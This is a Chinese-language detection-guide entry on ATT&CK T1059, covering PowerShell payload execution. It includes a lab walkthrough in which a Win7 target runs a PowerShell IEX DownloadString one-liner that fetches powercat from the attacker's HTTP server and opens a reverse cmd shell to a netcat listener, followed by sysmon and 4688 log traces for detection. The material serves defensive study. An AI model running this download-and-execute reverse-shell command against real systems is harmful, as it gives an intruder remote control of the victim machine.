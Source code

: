 # T1059-win-基于白名单Powershell.exe执行Payload

## 来自ATT&CK的描述

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

您可以使用PowerShell.exe从另一个工具（例如Cmd.exe）的命令行启动PowerShell会话，也可以在PowerShell命令行启动新会话。从此处阅读Microsoft Windows官方网站上的更多信息。

补充说明：在高版本powershell（V5以上含V5）中，可以通过配置策略，对进程命令行参数进行记录，具体策略可参考[powershell事件](https://github.com/12306Bro/Hunting-guide/blob/master/Powershell-id.md)。同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon）

### 攻击分析

#### 生成payload

下载我们本次测试中要用到的powercat，下载地址：<https://github.com/besimorhino/powercat>

#### 开启小型http服务

powercat目录下执行以下命令：

```bash
root@12306Br0:~# python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

#### 执行监听

```bash
nc -lvp 1234
```

#### 靶机执行payload

```cmd
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"
```

#### 反弹shell

```bash
root@12306Br0:/# nc -lvp 1234
listening on [any] 1234 ...
192.168.126.149: inverse host lookup failed: Unknown host
connect to [192.168.126.146] from (UNKNOWN) [192.168.126.149] 49339
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: PowerShell.EXE
CommandLine: powershell  -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"

#win7安全日志
EventID: 4688
进程信息:
新进程 ID: 0x330
新进程名: C:\Windows\System32\cmd.exe
令牌提升类型: TokenElevationTypeLimited (3)

EventID: 4688
进程信息:
新进程 ID: 0xa44
新进程名: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

#Powershell V5(含V5以上)配置审核策略，可以达到记录命令行参数的效果。通过命令行参数进行监控分析。当然也可以采用配置windows server 2008(不含2008)以上审核进程创建策略，同样也可以对命令行参数进行记录，最后达到监控效果。
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059/>

